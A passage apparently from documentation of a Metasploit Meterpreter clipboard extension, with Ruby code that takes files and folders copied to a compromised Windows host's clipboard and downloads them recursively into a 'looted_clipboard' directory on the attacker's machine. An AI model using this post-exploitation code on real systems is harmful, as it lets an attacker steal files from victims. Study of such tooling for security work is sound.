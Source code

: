 ```ruby
          print_line("Remote Path : #{f[:name]}")
          print_line("File size   : #{f[:size]} bytes")
          if get_files
            download_file( loot_dir, f[:name] )
          end
          print_line
          total += f[:size]
        end

      when 'Image'
        # <... SNIP ...>

      end
      # <... SNIP ...>
    end
  end
end
```

In the case of the above hash,
`download_file(loot_dir, 'C:\\Users\\Public\\Desktop\\Google Chrome.lnk')`
would be called within the function's `case` statement.

```ruby
def download_file( dest_folder, source )
  stat = client.fs.file.stat( source )
  base = ::Rex::Post::Meterpreter::Extensions::Stdapi::Fs::File.basename( source )
  dest = File.join( dest_folder, base )

  if stat.directory?
    client.fs.dir.download( dest, source, {"recursive" => true}, true ) { |step, src, dst|
      print_line( "#{step.ljust(11)} : #{src} -> #{dst}" )
      client.framework.events.on_session_download( client, src, dest ) if msf_loaded?
    }
  elsif stat.file?
    client.fs.file.download( dest, source ) { |step, src, dst|
      print_line( "#{step.ljust(11)} : #{src} -> #{dst}" )
      client.framework.events.on_session_download( client, src, dest ) if msf_loaded?
    }
  end
end
```

This function determines the type of the file that was copied to the clipboard
and calls the standard file/directory download functions to download it to
`dest_folder/basename(filename)`


Assuming a `dest_folder` of `/home/justin/looted_clipboard`:

* A file named `C:/Foo/Bar.txt` will be downloaded to `/home/justin/looted_clipboard/Bar.txt`
* A directory named `C:/Foo/Buzz` will be downloaded recursively to `/home/justin/looted_clipboard/Buzz`
